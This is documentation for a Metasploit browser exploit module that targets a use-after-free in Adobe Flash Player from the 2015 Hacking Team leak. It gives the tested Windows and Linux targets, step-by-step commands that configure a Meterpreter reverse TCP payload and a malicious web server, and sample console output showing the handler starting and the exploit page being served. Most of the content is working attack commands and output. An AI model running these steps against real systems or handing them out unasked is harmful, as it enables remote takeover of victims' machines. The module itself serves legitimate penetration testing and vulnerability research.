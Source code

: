 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
1. Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
2. Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194.
3. Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
4. Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194.
5. Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(adobe_flash_hacking_team_uaf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set lhost 172.16.178.160
lhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.160
srvhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set uripath /
uripath => /
msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://172.16.178.160:8080/
[*] Server started.
msf exploit(adobe_flash_hacking_team_uaf) > [*] 172.16.178.160   adobe_flash_hacking_team_uaf - Gathering target information for 172.16.178.160
[*] 172.16.178.160   adobe_flash_hacking_team_uaf - Sending HTML response to 172.16.178.160
```
